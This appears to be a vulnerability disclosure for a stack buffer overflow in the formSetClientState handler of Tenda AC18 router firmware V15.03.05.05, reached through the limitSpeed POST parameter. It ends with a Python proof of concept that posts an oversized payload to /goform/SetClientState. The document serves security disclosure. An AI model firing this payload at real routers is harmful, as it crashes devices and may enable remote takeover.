 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetClientState` function. The `v11` variable receives the `limitSpeed` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided  `limitSpeed` can trigger this security vulnerability.

![image-20240306000228236](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306000228236.png)

![image-20240305223452318](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223452318.png)

![image-20240305223505596](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223505596.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000


data = {'limitEn':1,"limitSpeed": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305223317174](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223317174.png)
